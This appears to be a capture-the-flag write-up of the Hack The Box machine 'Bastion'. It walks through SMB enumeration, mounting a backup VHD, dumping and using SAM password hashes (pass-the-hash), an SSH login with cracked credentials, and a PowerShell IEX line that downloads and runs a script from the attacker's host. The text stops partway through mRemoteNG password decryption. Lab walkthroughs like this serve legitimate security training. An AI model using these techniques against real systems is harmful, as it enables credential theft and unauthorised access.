



---
search:
  exclude: true
---
# Bastion Writeup

## Introduction :

Bastion is an easy Windows Box that was released back in April 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 85.171.153.138 ] [ ~/_HTB/ ]
      → nmap -F 10.10.10.134
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-09 18:20 CET
      Nmap scan report for 10.10.10.134
      Host is up (0.044s latency).
      Not shown: 96 closed ports
      PORT    STATE SERVICE
      22/tcp  open  ssh
      135/tcp open  msrpc
      139/tcp open  netbios-ssn
      445/tcp open  microsoft-ds
    
      Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
    
      λ nihilist [ 85.171.153.138 ] [ ~/_HTB/ ]
      → nmap -sCV -p22,135,139,445 10.10.10.134
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-09 18:21 CET
      Nmap scan report for 10.10.10.134
      Host is up (0.059s latency).
    
      PORT    STATE SERVICE      VERSION
      22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
      | ssh-hostkey:
      |   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
      |   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
      |_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
      135/tcp open  msrpc        Microsoft Windows RPC
      139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
      Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: mean: -19m28s, deviation: 34m37s, median: 30s
      | smb-os-discovery:
      |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
      |   Computer name: Bastion
      |   NetBIOS computer name: BASTION\x00
      |   Workgroup: WORKGROUP\x00
      |_  System time: 2019-12-09T18:21:46+01:00
      | smb-security-mode:
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2019-12-09T17:21:48
      |_  start_date: 2019-12-09T16:05:13
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 18.74 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port the smbservice running on port 135, 139 and 445, let's see if we can enumerate it a little further :
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/] → smbclient -L //10.10.10.134/ -U ""
      Unable to initialize messaging context
      smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
      Enter WORKGROUP\'s password:
    
      	Sharename       Type      Comment
      	---------       ----      -------
      	ADMIN$          Disk      Remote Admin
      	Backups         Disk
      	C$              Disk      Default share
      	IPC$            IPC       Remote IPC
      Reconnecting with SMB1 for workgroup listing.
      do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
      Unable to connect with SMB1 -- no workgroup available
    
    

We seem to have a few services we can work with : let's check out Backups first. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Bastion ]
      → smbclient //10.10.10.134/Backups
      Unable to initialize messaging context
      smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
      Enter WORKGROUP\nihilist's password:
      Try "help" to get a list of possible commands.
      smb: \> ls
        .                                   D        0  Tue Apr 16 12:02:11 2019
        ..                                  D        0  Tue Apr 16 12:02:11 2019
        note.txt                           AR      116  Tue Apr 16 12:10:09 2019
        SDT65CB.tmp                         A        0  Fri Feb 22 13:43:08 2019
        WindowsImageBackup                  D        0  Fri Feb 22 13:44:02 2019
    
      		7735807 blocks of size 4096. 2747575 blocks available
      smb: \> get note.txt
      getting file \note.txt of size 116 as note.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
    

Now that we saved the note.txt locally we print out it's contents
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bastion] → cat note.txt
    
      Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
    

Let's follow their advice and mount the share 
    
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
    → mount -t cifs //10.10.10.134/Backups mount
    Password for root@//10.10.10.134/Backups:
    
    λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
    → ls && cd mount
    mount  note.txt
    
    λ root [ 10.10.14.15/23 ] [_HTB/Bastion/mount]
    → ls
    note.txt  SDT65CB.tmp  WindowsImageBackup
    
    
    

We can also enumerate the smb share using smbmap as demonstrated below :
    
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/mount]
      → smbmap -u nihilist -H 10.10.10.134
      [+] Finding open SMB ports....
      [+] Guest SMB session established on 10.10.10.134...
      [+] IP: 10.10.10.134:445	Name: 10.10.10.134
      	Disk                                                  	Permissions	Comment
      	----                                                  	-----------	-------
      	ADMIN$                                            	NO ACCESS	Remote Admin
      	Backups                                           	READ, WRITE
      	[!] Unable to remove test directory at \\10.10.10.134\BackupsvXVtBOoZjY, please remove manually
      	C$                                                	NO ACCESS	Default share
      	.
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	InitShutdown
      	fr--r--r--                4 Sun Dec 31 23:58:45 1600	lsass
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	ntsvcs
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	scerpc
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-2e4-0
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	epmapper
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-1cc-0
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	LSM_API_service
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	eventlog
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-378-0
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	atsvc
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-344-0
      	fr--r--r--                4 Sun Dec 31 23:58:45 1600	wkssvc
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	spoolss
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-5e0-0
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	trkwks
      	fr--r--r--                3 Sun Dec 31 23:58:45 1600	W32TIME_ALT
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	openssh-ssh-agent
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	vgauth-service
      	fr--r--r--                4 Sun Dec 31 23:58:45 1600	srvsvc
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-5a4-0
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-250-0
      	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-248-0
      	IPC$                                              	READ ONLY	Remote IPC
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/mount]
      → ls
      note.txt  SDT65CB.tmp  vXVtBOoZjY  WindowsImageBackup
    

The interesting thing to see here is that using smbmap it makes the directory named "vXVtBOoZjY" appear. Earlier the note.txt said that this was a massive share for their office's slow VPN, let's check the size using the **du** command.
    
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/mount]
      → ls
      note.txt  SDT65CB.tmp  vXVtBOoZjY  WindowsImageBackup
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/mount]
      → du -hs WindowsImageBackup
      5.1G	WindowsImageBackup
    

5.1 Gigs is quite alot indeed, now navigating into WindowsImageBackup we see the folder named 'L4mpje-PC'
    
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/mount]
      → cd WindowsImageBackup
    
      λ root [ 10.10.14.15/23 ] [Bastion/mount/WindowsImageBackup]
      → cd L4mpje-PC
    
      λ root [ 10.10.14.15/23 ] [mount/WindowsImageBackup/L4mpje-PC]
      → ls
      'Backup 2019-02-22 124351'   Catalog   MediaId   SPPMetadataCache
    

The backup folder seems interesting, let's see what we can get in there. 
    
    
      λ root [ 10.10.14.15/23 ] [mount/WindowsImageBackup/L4mpje-PC]
      → cd Backup\ 2019-02-22\ 124351
    
      λ root [ 10.10.14.15/23 ] [WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
      → du -hs *
      37M	9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
      5.1G	9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
      4.0K	BackupSpecs.xml
      4.0K	cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
      12K	cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
      8.0K	cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
      4.0K	cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
      4.0K	cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
      4.0K	cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
      4.0K	cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
      4.0K	cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
      8.0K	cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
      2.3M	cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
    
    

Right here we see two interesting .vhd harddrives one weighing 37 Megs and the other one weighing 5.1Gigs From there, we will need to mount the virtual harddrives (VHD), to do so we will use the guestmount command
    
    
      λ root [ 10.10.14.15/23 ] [WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
      → guestmount
      zsh: command not found: guestmount
    
      λ root [ 10.10.14.15/23 ] [WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
      → apt install libguestfs-tools && guestmount --help
    

Once it's done installing, run the following command : 
    
    
      λ root [ 10.10.14.15/23 ] [WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
      → mkdir /home/nihilist/_HTB/Bastion/vhd
    
      λ root [ 10.10.14.15/23 ] [WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
      → guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /home/nihilist/_HTB/Bastion/vhd
    

once it's done mounting, let's browse into the vhd directory we just created, and view the contents of the mounted virtual harddrive 
    
    
      λ root [ 10.10.14.15/23 ] [WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
      → cd /home/nihilist/_HTB/Bastion
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → cd vhd
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/vhd]
      → ls
      '$Recycle.Bin'   config.sys                pagefile.sys   ProgramData      Recovery                     Users
       autoexec.bat   'Documents and Settings'   PerfLogs      'Program Files'  'System Volume Information'   Windows
    
       λ root [ 10.10.14.15/23 ] [vhd/Users/L4mpje]
    → find Desktop Documents Downloads -ls
           25      0 drwxrwxrwx   1 root     root            0 Feb 22  2019 Desktop
           49      1 -rwxrwxrwx   1 root     root          282 Feb 22  2019 Desktop/desktop.ini
           26      4 drwxrwxrwx   1 root     root         4096 Feb 22  2019 Documents
           50      1 -rwxrwxrwx   1 root     root          402 Feb 22  2019 Documents/desktop.ini
           51      0 lrwxrwxrwx   2 root     root           27 Feb 22  2019 Documents/My\ Music -> /sysroot/Users/L4mpje/Music
           52      0 lrwxrwxrwx   2 root     root           30 Feb 22  2019 Documents/My\ Pictures -> /sysroot/Users/L4mpje/Pictures
           53      0 lrwxrwxrwx   2 root     root           28 Feb 22  2019 Documents/My\ Videos -> /sysroot/Users/L4mpje/Videos
           27      0 drwxrwxrwx   1 root     root            0 Feb 22  2019 Downloads
           54      1 -rwxrwxrwx   1 root     root          282 Feb 22  2019 Downloads/desktop.ini
    
    

nothing too interesting there, let's check out the Windows/System32/config/ folder.
    
    
      λ root [ 10.10.14.15/23 ] [vhd/Users/L4mpje]
      → cd ../..
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/vhd]
      → cd Windows/System32/config
    
      λ root [ 10.10.14.15/23 ] [Windows/System32/config]
      → ls
      BCD-Template                                                                                  SAM
      BCD-Template.LOG                                                                              SAM.LOG
      COMPONENTS                                                                                    SAM.LOG1
      COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.0.regtrans-ms                            SAM.LOG2
      COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.1.regtrans-ms                            SECURITY
      COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.2.regtrans-ms                            SECURITY.LOG
      COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.blf                                      SECURITY.LOG1
      COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TM.blf                                       SECURITY.LOG2
      COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000001.regtrans-ms  SOFTWARE
      COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000002.regtrans-ms  SOFTWARE.LOG
      COMPONENTS.LOG                                                                                SOFTWARE.LOG1
      COMPONENTS.LOG1                                                                               SOFTWARE.LOG2
      COMPONENTS.LOG2                                                                               SYSTEM
      DEFAULT                                                                                       SYSTEM.LOG
      DEFAULT.LOG                                                                                   SYSTEM.LOG1
      DEFAULT.LOG1                                                                                  SYSTEM.LOG2
      DEFAULT.LOG2                                                                                  systemprofile
      Journal                                                                                       TxR
      RegBack
    

let's copy the SAM and SYSTEM files locally. 
    
    
      λ root [ 10.10.14.15/23 ] [Windows/System32/config]
      → cp SAM SYSTEM /home/nihilist/_HTB/Bastion
    
      λ root [ 10.10.14.15/23 ] [Windows/System32/config]
      → cd ../../../..
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → ls
      mount  note.txt  SAM  SYSTEM  vhd
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → file SAM SYSTEM
      SAM:    MS Windows registry file, NT/2000 or above
      SYSTEM: MS Windows registry file, NT/2000 or above
    
    

Here we see that both these files are windows registry files, they may contain some interesting things. let's move them in another folder.
    
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → mkdir backup && mv SAM backup/ && mv SYSTEM backup/
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → cd backup
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/backup]
      → ls
      SAM  SYSTEM
    

from there we'll use the impacket-secretsdump command : 
    
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/backup]
      → impacket-secretsdump -sam SAM -system SYSTEM local
      Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
    
      [*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
      [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
      L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
      [*] Cleaning up...
    

And we have a few hashes, the administrator hash is blank (31d6 means nothing) so it probably means that the administrator account is disabled. Let's focus on the L4mpje user instead, we'll use the smbmap command once again, setting the -u (user) and -p (hash) -H (host) flags
    
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/backup]
    → smbmap -u L4mpje -p aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 -H 10.10.10.134
    [+] Finding open SMB ports....
    [+] Hash detected, using pass-the-hash to authenticate
    [+] User session established on 10.10.10.134...
    [+] IP: 10.10.10.134:445	Name: 10.10.10.134
    	Disk                                                  	Permissions	Comment
    	----                                                  	-----------	-------
    	ADMIN$                                            	NO ACCESS	Remote Admin
    	Backups                                           	READ, WRITE
    	C$                                                	NO ACCESS	Default share
    

Looking at the results, we don't seem to have gained preety much anything, instead let's check out the ssh port that our nmap scan discovered earlier. In order to do so, we didn't find our password yet, we'll use the hash on https://hashes.org/search.php to see if it can guess it for us.

 

looking at the results, we seem to have credentials ! L4mpje:bureaulampje , now let's try to login as the user L4mpje through ssh.
    
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/backup]
    → ssh L4mpje@10.10.10.134
    The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.
    ECDSA key fingerprint is SHA256:ILc1g9UC/7j/5b+vXeQ7TIaXLFddAbttU86ZeiM/bNY.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.134' (ECDSA) to the list of known hosts.
    L4mpje@10.10.10.134's password:
    
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    l4mpje@BASTION C:\Users\L4mpje>
    

And we have user access to the box. let's print out the user flag.
    
    
      l4mpje@BASTION C:\Users\L4mpje>cd Desktop
    
      l4mpje@BASTION C:\Users\L4mpje\Desktop>dir
       Volume in drive C has no label.
       Volume Serial Number is 0CB3-C487
    
       Directory of C:\Users\L4mpje\Desktop
    
      22-02-2019  15:27    <****DIR>          .
      22-02-2019  15:27 <****DIR>          ..
      23-02-2019  09:07                32 user.txt
                     1 File(s)             32 bytes
                     2 Dir(s)  11.298.652.160 bytes free
    
      l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
      9bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And that's it ! We have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now to escalate privileges on the box we need to do a few things :
    
    
      l4mpje@BASTION C:\Users\L4mpje>net localgroup administrators
    Alias name     administrators
    Comment        Administrators have complete and unrestricted access to the computer/domain
    
    Members
    
    -------------------------------------------------------------------------------
    Administrator
    The command completed successfully.
    

Looking at the results of the **net localgroup administrators** command, we see that the user "Administrator" is there, even though we thought that he was disabled before. Let's run the net user command on our own user l4mpje to see which groups we are part of.
    
    
      l4mpje@BASTION C:\Users\L4mpje>net user l4mpje
      User name                    L4mpje
      Full Name                    L4mpje
      Comment
      User's comment
      Country/region code          000 (System Default)
      Account active               Yes
      Account expires              Never
    
      Password last set            22-2-2019 13:42:58
      Password expires             Never
      Password changeable          22-2-2019 13:42:58
      Password required            Yes
      User may change password     No
    
      Workstations allowed         All
      Logon script
      User profile
      Home directory
      Last logon                   12-2-2020 20:31:20
    
      Logon hours allowed          All
    
      Local Group Memberships      *Users
      Global Group memberships     *None
      The command completed successfully.
    

so here it says that our local group membership is with ***Users**. Running the same command on the Administrator user we see that
    
    
      l4mpje@BASTION C:\Users\L4mpje>net user Administrator
    User name                    Administrator
    Full Name
    Comment                      Built-in account for administering the computer/domain
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            16-4-2019 11:00:56
    Password expires             Never
    Password changeable          16-4-2019 11:00:56
    Password required            Yes
    User may change password     Yes
    
    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   27-8-2019 10:18:29
    
    Logon hours allowed          All
    
    Local Group Memberships      *Administrators
    Global Group memberships     *None
    The command completed successfully.
    

here we see that the administrator user has his password last set on **16-4-2019 11:00:56**
    
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → cd vhd
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/vhd]
      → ls
      '$Recycle.Bin'   config.sys                pagefile.sys   ProgramData      Recovery                     Users
       autoexec.bat   'Documents and Settings'   PerfLogs      'Program Files'  'System Volume Information'   Windows
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/vhd]
      → cd Windows/System32/config
    
      λ root [ 10.10.14.15/23 ] [Windows/System32/config]
      → ls -lash | grep SAM
      256K -rwxrwxrwx 1 root root 256K Feb 22  2019 SAM
      4.0K -rwxrwxrwx 1 root root 1.0K Apr 12  2011 SAM.LOG
       24K -rwxrwxrwx 2 root root  21K Feb 22  2019 SAM.LOG1
         0 -rwxrwxrwx 2 root root    0 Jul 14  2009 SAM.LOG2
    
      λ root [ 10.10.14.15/23 ] [Windows/System32/config]
      → ls -lash | grep SYSTEM
      9.3M -rwxrwxrwx 1 root root 9.3M Feb 22  2019 SYSTEM
      4.0K -rwxrwxrwx 1 root root 1.0K Apr 12  2011 SYSTEM.LOG
      3.5M -rwxrwxrwx 2 root root 256K Feb 22  2019 SYSTEM.LOG1
         0 -rwxrwxrwx 2 root root    0 Jul 14  2009 SYSTEM.LOG2
    
    
    

From there we see that the SAM and SYSTEM registry files were last modified Febuary 22nd, so that's why we weren't able to see the administrator account before. Now in order to privesc, we will use a tool called JAWS which is a windows enumerating script
    
    
      λ root [ 10.10.14.15/23 ] [Windows/System32/config]
      → cd ../../..
    
      λ root [ 10.10.14.15/23 ] [_HTB/Bastion/vhd]
      → cd ..
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → curl -sk https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1 > jaws-enum.ps1
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → ifconfig | grep inet
              inet 192.168.0.19  netmask 255.255.255.0  broadcast 192.168.0.255
              inet6 fe80::82fa:5bff:fe5b:4334  prefixlen 64  scopeid 0x20
              inet 127.0.0.1  netmask 255.0.0.0
              inet6 ::1  prefixlen 128  scopeid 0x10
              inet 10.10.14.15  netmask 255.255.254.0  destination 10.10.14.15
              inet6 dead:beef:2::100d  prefixlen 64  scopeid 0x0
              inet6 fe80::f96c:5ab:2911:51b  prefixlen 64  scopeid 0x20
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → python -m SimpleHTTPServer 8080
      Serving HTTP on 0.0.0.0 port 8080 ...
    

We will download the script (jaws-enum.ps1) at our ip (10.10.14.15) at the correct port (8080) onto the box.
    
    
      l4mpje@BASTION C:\Users\L4mpje>IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15:8080/jaws-enum.ps1')
      'IEX' is not recognized as an internal or external command,
      operable program or batch file.
    

let's not forget that we'll use powershell to run that command :) 
    
    
      l4mpje@BASTION C:\Users\L4mpje>powershell
      Windows PowerShell
      Copyright (C) 2016 Microsoft Corporation. All rights reserved.
    
      PS C:\Users\L4mpje> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15:8080/jaws-enum.ps1')
    
      Running J.A.W.S. Enumeration
    

while that runs let's run another ssh session to see what we can find
    
    
      Microsoft Windows [Version 10.0.14393]
      (c) 2016 Microsoft Corporation. All rights reserved.
    
      l4mpje@BASTION C:\Users\L4mpje>cd ../..
    
      l4mpje@BASTION C:\>dir
       Volume in drive C has no label.
       Volume Serial Number is 0CB3-C487
    
       Directory of C:\
    
      12-02-2020  20:22    <****DIR>          Backups
      12-09-2016  12:35 <****DIR>          Logs
      22-02-2019  14:42 <****DIR>          PerfLogs
      27-08-2019  10:20 <****DIR>          Program Files
      22-02-2019  14:01 <****DIR>          Program Files (x86)
      22-02-2019  13:50 <****DIR>          Users
      12-02-2020  19:07 <****DIR>          Windows
                     0 File(s)              0 bytes
                     7 Dir(s)  11.297.501.184 bytes free
    
      l4mpje@BASTION C:\>cd Program Files (x86)
    
      l4mpje@BASTION C:\Program Files (x86)>dir
       Volume in drive C has no label.
       Volume Serial Number is 0CB3-C487
    
       Directory of C:\Program Files (x86)
    
      22-02-2019  14:01 <****DIR>          .
      22-02-2019  14:01 <****DIR>          ..
      16-07-2016  14:23 <****DIR>          Common Files
      23-02-2019  09:38 <****DIR>          Internet Explorer
      16-07-2016  14:23 <****DIR>          Microsoft.NET
      22-02-2019  14:01 <****DIR>          mRemoteNG
      23-02-2019  10:22 <****DIR>          Windows Defender
      23-02-2019  09:38 <****DIR>          Windows Mail
      23-02-2019  10:22 <****DIR>          Windows Media Player
      16-07-2016  14:23 <****DIR>          Windows Multimedia Platform
      16-07-2016  14:23 <****DIR>          Windows NT
      23-02-2019  10:22 <****DIR>          Windows Photo Viewer
      16-07-2016  14:23 <****DIR>          Windows Portable Devices
      16-07-2016  14:23 <****DIR>          WindowsPowerShell
                     0 File(s)              0 bytes
                    14 Dir(s)  11.297.501.184 bytes free

looking at the program files(x86) folder we see something interesting here, the mRemoteNG which is an open source, tabbed, multi-protocol, remote connections manager. looking at this [article](http://hackersvanguard.com/mremoteng-insecure-password-storage/) made by hackersvanguard.com, we see that it is possible to decrypt passwords. However for this example we'll use another solution in order to remain within the linux environment, using a this [ python script](https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py)
    
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
    → curl -sk https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py > mremoteng.py
    
    λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
    → python3 mremoteng.py
    usage: mremoteng.py [-h] [-f FILE | -s STRING] [-p PASSWORD]
    
    Decrypt mRemoteNG passwords.
    
    optional arguments:
      -h, --help            show this help message and exit
      -f FILE, --file FILE  name of file containing mRemoteNG password
      -s STRING, --string STRING
                            base64 string of mRemoteNG password
      -p PASSWORD, --password PASSWORD
                            Custom password
    

